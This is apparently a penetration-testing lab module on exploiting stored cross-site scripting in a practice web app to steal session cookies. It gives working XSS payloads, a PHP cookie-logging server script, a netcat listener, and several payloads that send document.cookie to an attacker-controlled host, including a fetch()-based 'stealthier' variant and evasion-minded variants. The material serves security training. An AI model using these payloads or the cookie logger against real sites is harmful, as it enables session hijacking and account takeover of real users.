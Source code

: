 # Cross-Site Scripting (XSS)
Cross-Site Scripting (XSS) vulnerabilities are among the most common web application vulnerabilities. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities. In this section, though, we will focus on exploiting Cross-Site Scripting (XSS) vulnerabilities to obtain valid session identifiers (such as session cookies).
For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:
Session cookies should be carried in all HTTP requests
Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)
Navigate to http://xss.htb.net and log in to the application using the credentials below:
It looks like we can edit the input fields to update our email, phone number, and country.
In such cases, it is best to use payloads with event handlers like onload or onerror since they fire up automatically and also prove the highest impact on stored XSS cases. Of course, if they're blocked, you'll have to use something else like onmouseover.
In one field, let us specify the following payload:
```
"><img src=x onerror=prompt(document.domain)>
```
We are using document.domain to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment. JavaScript being executed in a sandboxed environment prevents client-side attacks
We will need to update the profile by pressing "Save" to submit our payloads.
The profile was updated successfully. We notice no payload being triggered, though! Often, the payload code is not going to be called/executed until another application functionality triggers it. Let us go to "Share," as it is the only other functionality we have, to see if any of the submitted payloads are retrieved in there. This functionality returns a publicly accessible profile. Identifying a stored XSS vulnerability in such a functionality would be ideal from an attacker's perspective.
That is indeed the case! The payload specified in the Country field fired!
Let us now check if `HTTPOnly` is "off" using Web Developer Tools.
`HTTPOnly` is off!
In the remaining two fields, let us specify the following two payloads.
```
"><img src=x onerror=confirm(1)>
```
```
"><img src=x onerror=alert(1)>
```
## Obtaining session cookies through XSS
We identified that we could create and share publicly accessible profiles that contain our specified XSS payloads.
1. Let us create a cookie-logging script (save it as log.php) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. The below PHP script can be hosted on a VPS or your attacking machine (depending on egress restrictions).
```
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```
This script waits for anyone to request `?c=+document.cookie`, and it will then parse the included cookie.
2. The cookie-logging script can be run as follows. TUN Adapter IP is the tun interface's IP of either Pwnbox or your own VM.
```
php -S <VPN/TUN Adapter IP>:8000
```
3. Before we simulate the attack, let us restore Ela Stienen's original Email and Telephone (since we found no XSS in these fields and also want the profile to look legitimate). Now, let us place the below payload in the Country field. There are no specific requirements for the payload; we just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.
```
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```
Note: If you're doing testing in the real world, try using something like XSSHunter, Burp Collaborator or Project Interactsh. A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.
A sample HTTPS>HTTPS payload example can be found below:
```
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```
### Simulate the victim
1. Open a New Private Window, navigate to http://xss.htb.net and log in to the application using the credentials below: This account will play the role of the victim!
2. Now, navigate to http://xss.htb.net/profile?email=ela.stienen@example.com. This is the attacker-crafted public profile that hosts our cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified). You should now see the below in your attacking machine.
3. Terminate the PHP server with Ctrl+c, and the victim's cookie will reside inside cookieLog.txt
4. You can now use this stolen cookie to hijack the victim's session!
## Obtaining session cookies via XSS (Netcat edition)
1. Before we simulate the attack, let us place the below payload in the Country field of Ela Stienen's profile and click "Save." There are no specific requirements for the payload. We just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.
```
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```
2. Let us also instruct Netcat to listen on port 8000 as follows.
```
nc -lvnp 8000
```
3. Open a New Private Window and navigate to http://xss.htb.net/profile?email=ela.stienen@example.com, simulating what the victim would do. We remind you that the above is an attacker-controlled public profile hosting a cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified). By the time you hold your mouse over "test," you should now see the below in your attacking machine. Please note that the cookie is a Base64 value because we used the btoa() function, which will base64 encode the cookie's value.
4. You can now use this stolen cookie to hijack the victim's session!
5. We don't necessarily have to use the window.location() object that causes victims to get redirected. We can use fetch(), which can fetch data (cookies) and send it to our server without any redirects. This is a stealthier way.
```
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```
